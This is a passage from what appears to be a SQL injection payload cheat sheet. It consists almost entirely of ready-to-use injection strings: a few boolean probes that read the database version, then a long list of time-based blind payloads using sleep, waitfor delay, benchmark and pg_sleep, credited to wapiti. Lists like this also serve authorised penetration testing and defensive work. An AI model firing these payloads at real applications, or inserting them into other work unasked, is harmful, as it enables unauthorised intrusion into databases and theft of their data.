 ```
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'
```

#### Generic Time Based SQL Injection Payloads

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
```